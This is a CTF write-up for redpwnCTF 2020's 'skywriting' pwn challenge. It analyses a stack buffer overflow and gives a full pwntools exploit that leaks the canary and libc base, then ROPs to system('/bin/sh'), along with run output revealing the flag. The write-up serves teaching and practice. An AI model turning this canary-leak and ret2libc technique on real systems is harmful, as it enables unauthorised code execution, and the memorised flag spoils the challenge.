

# redpwnCTF 2020

## pwn/skywriting

> NotDeGhost
> 
> 480
>
> It's pretty intuitive once you [disambiguate some homoglyphs](https://medium.com/@TCS_20XX/pactf-2018-writeup-skywriting-a5f857463c07), I don't get why nobody solved it...
> 
> `nc 2020.redpwnc.tf 31034`
>
> [`skywriting.tar.gz`](skywriting.tar.gz)

Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_ _stack-canary_


## Summary

Canary leak to enable BOF, ROP, Shell.

> BTW, this is the first time I noticed the _homoglyphs_ link in the task description.  It has zero to do with this challenge.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Default `gcc` mitigations in place. 

    
### Decompile with Ghidra



At first glance, if you start out with anything other than `1`, then you get `/bin/zsh`, easy:

```
# nc 2020.redpwnc.tf 31034
Hello there, do you want to write on the sky?
no
:(, take this shell instead
```

No shell, it wasn't going to be that easy, but worth checking anyway.

So, start out with a `1` and you'll be in a loop until you send `notflag{a_cloud_is_just_someone_elses_computer}\n`.  While in this loop `read` will read up to `0x200` bytes into a buffer that will bump up to the canary after `0x98 - 0x10` bytes (see Ghidra stack diagram).

The stack check does not happen until after the loop exits, so you can safely overwrite and read the stack.

Ignore `FUN_0010093a()`, it's just there to provide one of five different trolling messages.


### Exploit

```python
#!/usr/bin/python3

from pwn import *

binary = ELF('./skywriting')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.update(arch='amd64',os='linux')

#p = process(binary.path)
p = remote('2020.redpwnc.tf', 31034)
```

Initial setup.  The libc version was implied in the included `Dockerfile` (Ubuntu 18.04).

```python
# get canary
p.sendlineafter('sky? \n','1')
payload = (0x98 - 0x10 + 1) * b'A'
p.sendafter('shot: ',payload)
p.recvuntil((0x98 - 0x10 + 1) * b'A')
_ = b'\x00' + p.recv(7)
canary = u64(_)
log.info('canary: ' + hex(canary))
```

First pass, leak the canary.  Established in the Analysis section, the canary is `0x98 - 0x10` down from the input buffer (`local_98`), by adding `1` more `A` to the payload we'll corrupt the least significant canary byte, a byte that is always `0x00`, so no information lost.  By replacing the null, the `printf` on line 32 (see decompile above) will print all our `A`'s followed by the canary and anything else down stack until a null is reached.

> Notice the use of `send` vs `sendline`, we do not want a NL corrupting the 2nd to last canary byte, then we lose information.  OTOH, I guess if the NL landed on the last byte (the known null byte), then it'd be fine.

```python
# get libc, just after rbp
# __libc_start_main+231
payload = 0x98 * b'A'
p.sendafter('shot: ',payload)
p.recvuntil(0x98 * b'A')
_ = p.recv(6) + b'\x00\x00'
__libc_start_main = u64(_) - 231
log.info('__libc_start_main: ' + hex(__libc_start_main))
baselibc = __libc_start_main - libc.symbols['__libc_start_main']
log.info('baselibc: ' + hex(baselibc))
libc.address = baselibc
```

Second pass.  Leak libc.  I used GDB to find libc in the stack.  I just set a break point at the first `puts` and then looked at the stack from the canary down:

```
0x00007fffffffe538│+0x0098: 0xca6f52637c914000
0x00007fffffffe540│+0x00a0: 0x0000555555554b70  →   push r15 ← $rbp
0x00007fffffffe548│+0x00a8: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

The first line is the canary, and right after `$rbp` is the return address that also happens to be a libc address, so we just need to write out `0x98` (`local_98` is `0x98` bytes from the return address--see Ghidra stack diagram) bytes to get to the return address which happens to be `__libc_start_main+231` from libc.

The libc leak code is not unlike the canary leak code.  In both cases as long as there is no null in the canary or the last 6 bytes of the return address, we're good to go (probably not a bad idea to check).

> x86_64 addresses are only 48-bits (for now), so we only need to collect 6 bytes.

```python
rop = ROP([libc])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

# lets get out of here
payload  = b'notflag{a_cloud_is_just_someone_elses_computer}\n\x00'
payload += (0x98 - 0x10 - len(payload)) * b'A'
payload += p64(canary)
payload += 8 * b'B'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.symbols['system'])
p.sendafter('shot: ',payload)

p.interactive()
```

Final pass.  With the leaked canary and libc location known we can BOF and ROP to a shell.  To get past the `strcmp` check, a null needs to be inserted in the payload--that is as far as `strcmp` will check.  The rest of the payload is `A`'s up to, but not including the canary, then the leaked canary, then any 8 bytes for RBP, then our ROP chain to a shell.

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/redpwnctf2020/skywriting/bin/skywriting'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2020.redpwnc.tf on port 31034: Done
[*] canary: 0x32aac44eaca73d00
[*] __libc_start_main: 0x7f690a80aab0
[*] baselibc: 0x7f690a7e9000
[*] Loaded 196 cached gadgets for '/lib/x86_64-linux-gnu/libc.so.6'
[*] Switching to interactive mode
Good job! You did it!
$ cat flag.txt
flag{a_cLOud_iS_jUSt_sOmeBodY_eLSes_cOMpUteR}
```